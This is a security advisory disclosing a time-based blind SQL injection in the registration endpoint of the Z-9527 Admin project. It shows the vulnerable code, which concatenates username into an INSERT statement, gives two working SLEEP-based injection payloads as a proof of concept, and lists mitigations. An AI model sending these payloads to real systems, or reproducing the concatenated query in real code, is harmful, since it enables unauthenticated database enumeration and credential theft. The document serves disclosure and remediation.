


# SQL Blind Injection Vulnerability in Z-9527 Admin

> **Software and Affected Version:** [Z-9527 Admin](https://github.com/z-9527/admin) ≤ commit 72aaf2d

## Vulnerability Files

-   `server/routes/user.js`
-   `server/controller/user.js`

## Description

A SQL blind injection vulnerability exists in [Z-9527 Admin](https://github.com/z-9527/admin) ≤ commit 72aaf2d at the `/user/register` endpoint, where the `username` field in the request body is concatenated directly into a SQL statement without sanitization or parameterization. As a result, unauthenticated attackers can inject malicious SQL payloads using time-based blind-injection techniques to infer sensitive database information character-by-character through response-time analysis. This enables complete database enumeration, credential extraction, and potential privilege escalation. Mitigations include immediately replacing string concatenation with parameterized queries or prepared statements, implementing strict input validation and sanitization for all user-supplied parameters, applying the principle of least privilege to database connections, deploying web application firewalls with SQL injection detection rules, and conducting comprehensive security audits of all database query construction patterns across the codebase.

## Code Analysis

In `server/routes/user.js`:

```js
router.post('/register', async function (ctx, next) {
    const { username, password } = ctx.request.body;
    const res = await register(username, password, ctx);
    handleRes(ctx, next, res);
});
```

In `server/controller/user.js`:

```js
const register = async function (username, password, ctx) {
    if (!username || !password) {
        return new ErrorModel({
            message: '请输入账号或密码',
            httpCode: 400
        });
    }
    const checkNameResult = await checkName(username);
    if (checkNameResult.data.num) {
        return new ErrorModel({
            message: '用户名已存在',
            httpCode: 400
        });
    }
    const ip = await getIpInfo(ctx);
    if (ip.status !== 0) {
        return new ErrorModel({
            message: '获取IP地址失败',
            httpCode: 500
        });
    }
    const registrationAddress = JSON.stringify(ip.data);
    //先解密前端加密的密码
    const originalText = decrypt(password);
    //然后再用另一种方式加密密码
    const ciphertext = genPassword(originalText);
    const sql = `insert into users (username, password, registrationAddress, registrationTime) values
        ('${username}', '${ciphertext}', '${registrationAddress}', ${Date.now()})
    `;
    const res = await exec(sql);
    if (res.affectedRows) {
        return new SuccessModel({
            data: { userId: res.insertId },
            message: '注册成功'
        });
    } else {
        return new ErrorModel({
            message: '注册失败',
            httpCode: 500
        });
    }
};
```

The user input is directly concatenated into the SQL statement.

## Proof of Concept

Assuming the current database is `admin`, sending the following payload to `/user/register` returned a response after approximately 2021 ms:

```json
{
    "username": "1' and IF(SUBSTRING((SELECT DATABASE()), 1, 1) = 'a', SLEEP(1), 1) or '",
    "password": "U2FsdGVkX19cFq7QPIex8GdGULOIVz8zQj9Et0lglPI="
}
```



Assuming the current database is `admin`, sending the following payload to `/user/register` returned a response after approximately 9 ms:

```json
{
    "username": "1' and IF(SUBSTRING((SELECT DATABASE()), 1, 1) = 'b', SLEEP(1), 1) or '",
    "password": "U2FsdGVkX19cFq7QPIex8GdGULOIVz8zQj9Et0lglPI="
}
```


